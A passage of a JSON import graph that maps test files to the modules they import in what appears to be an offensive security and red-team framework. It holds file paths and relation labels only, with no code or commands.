"resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/nethelpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/nethelpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/nethelpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/nethelpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nuclei_parser.py", "target": "modules/integrations/nuclei_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_ops_loot_phase.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_ops_loot_phase.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_ops_loot_phase.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_opsec_scorer.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_opsec_scorer_consolidated.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_palette_overlay.py", "target": "cli/palette_overlay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_factory.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_payload_schema.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase_labels.py", "target": "cli/phase_labels.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase_labels.py", "target": "cli/contextual_help.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_phase_labels.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_pipeline_engine.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_placeholder_coverage.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_placeholder_coverage.py", "target": "lazyc2/addon_creator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_plugin_tiers.py", "target": "cli/plugin_tiers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_profiles.py", "target": "core/profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_prompt_readline_markers.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_prompt_refresh.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_prompt_refresh.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_rea_mcp.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_rea_mcp.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_engine_semantic.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_hints_expanded.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reactive_lateral_data.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_reasoning_stream.py", "target": "cli/reasoning_stream.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_recommendation.py", "target": "cli/recommendation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_recommendation.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_recon_plan.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_recon_plan.py", "target": "cli/recon_plan.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_require_guards.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_require_guards.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_resource_script.py", "target": "modules/resource_script.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safe_console.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safe_console.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safe_console.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safe_subprocess.py", "target": "core/safe_subprocess.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safe_subprocess_behavior.py", "target": "core/safe_subprocess.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_safety_gates.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_bound_auto_gate.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_guard.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_guard.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_guard.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_guard_integration.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_scope_guard_integration.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_mentions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "lazyc2/blueprints/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_codeql_batch.py", "target": "skills/claude_md_orchestrator/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening.py", "target": "core/safe_subprocess.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/resource_script.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/phishing_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/phishing_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v3.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, 